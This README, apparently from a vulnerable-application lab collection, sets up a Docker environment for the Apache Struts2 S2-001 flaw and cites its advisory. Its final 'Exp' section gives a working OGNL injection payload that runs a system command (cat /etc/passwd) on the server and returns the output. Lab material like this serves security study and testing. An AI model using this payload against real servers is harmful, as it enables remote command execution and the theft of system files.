


## Struts2 S2-001 漏洞环境

### 漏洞信息

 * [S2-001 公告](http://struts.apache.org/docs/s2-001.html)
 
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-001
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-001
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行(命令加参数：new java.lang.String[]{"cat","/etc/passwd"})

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```





